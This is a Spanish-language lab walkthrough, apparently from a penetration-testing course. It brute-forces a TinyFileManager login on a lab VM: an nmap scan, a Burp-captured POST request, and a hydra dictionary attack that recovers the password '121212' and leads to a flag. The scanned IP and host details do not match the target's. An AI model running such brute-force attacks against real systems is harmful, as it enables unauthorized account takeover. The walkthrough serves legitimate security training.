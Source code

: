 
# Walk: Password Attacks - SSH and RDP - VM #4
## Fecha: 20/02/2025
## Host: Ubuntu
## IP: 192.168.232.201
## Objetivo
Follow the steps from this section to gain access to TinyFileManager on VM #1 (BRUTE). Once logged in, find the flag.
## Herramientas
1. nmap
2. Burp
3. hydra
## Procedimiento y comandos
#### Paso 1: Escanemos el host para enumerar servicios:
- `nmap -sV --open 192.168.202.202 -oN vm-3.nmap-result.txt `
```
Nmap scan report for 192.168.202.202
Host is up (0.19s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd 1.4.1
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  http          Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
#### Obtenemos con Burp la cabecera:
- Hacemos un intento de login con el interceptor activado:
```
POST / HTTP/1.1
Host: 192.168.232.201
Content-Length: 23
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.232.201
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.232.201/
Accept-Encoding: gzip, deflate, br
Cookie: filemanager=ftrtp34rggraebkb9ru8aa6v82
Connection: keep-alive
fm_usr=test&fm_pwd=test
```
#### Paso 2: Ejecutamos el ataque de diccionario con hydra:
> Probamos el usuario generico de TinyFileManager: **user**
- `hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.232.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"`
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 11:59:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.232.201:80/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 16 active
[80][http-post-form] host: 192.168.232.201   login: user   password: 121212
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-20 12:01:52

```
- [80][http-post-form] host: 192.168.232.201   login: user   password: **121212**
#### Paso 3: Iniciamos sesion con usuario/user, password/121212:
- El flag esta en el archivo **install.txt**
